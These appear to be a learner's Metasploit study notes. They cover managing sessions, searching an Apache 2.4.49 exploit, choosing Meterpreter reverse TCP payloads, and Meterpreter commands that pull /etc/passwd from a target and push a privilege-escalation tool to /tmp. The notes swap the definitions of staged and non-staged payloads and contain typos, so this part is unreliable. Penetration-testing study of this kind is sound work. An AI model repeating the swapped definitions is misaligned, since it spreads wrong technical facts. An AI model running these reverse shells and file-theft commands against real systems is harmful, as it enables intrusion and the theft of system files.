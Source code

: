this starts up a session in foreground
send to bg with `ctrl-z`

list sessions
```
sessions -l
```

interact with session
```
sessions -i 2
```

kill a session 
```
sessions -k
```

can run the exploit as job
```
run -j
```

### metasploit payloads
- staged payload: exploit and full shell code sent together and can avoid antivirus detection, generally more stable but larger
- nonstaged payload: sent in two parts, first part just has machine connect back to attacker, secondary part contains the rest of the shell code
```
search Apache 2.4.49
use 0
show payloads # a / determines if the payload is staged or not
```

staged:` payload/linux/x86/meterpreter/reverse_tcp`
unstaged: `payload/linux/x86/meterpreter_reverse_tcp`
- x86 = 32 bit
- x64 = 64 bit

### meterpreter payloads
- using a regluar payload you only get regular commmand shell and cannot do complex things
- non staged 64 bit tcp reverse shell: payload/linux/x64/meterpreter_reverse_tcp
```
meterpreter > sysinfo
meterpreter > shell
ctrl-z to background the shell
```

download something to kali
```
meterpreter > lpwd
/home/kali
meterpreter > lcd /home/kali/Downloads
meterpreter > download /etc/passwds
```

upload something to kali
```
meterpreter > upload /usr/bin/unix-privesc-check /tmp/
```
